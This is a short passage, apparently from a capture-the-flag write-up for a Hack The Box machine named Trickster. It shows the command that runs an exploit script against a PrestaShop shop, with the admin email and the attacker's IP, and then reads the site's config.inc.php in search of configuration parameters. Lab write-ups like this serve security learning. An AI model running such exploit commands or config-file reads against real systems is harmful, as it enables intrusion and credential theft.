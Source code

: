 ![](attachment/81ac4781d4b78a75ed9cd39346910157.png)

So run the command with: 

```shell
python3 exploit.py --url http://shop.trickster.htb --email admin@trickster.htb --local-ip 10.10.15.30 --admin-path admin634ewutrx1jgitlooaj
```

![](attachment/0aba520562919356f369b0b1454c54ad.png)

In config.inc.php:

```shell
$ cd /var/www/prestashop/config
$ cat config.inc.php | grep parameters
if (!file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.yml') && !file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.php')) {

```
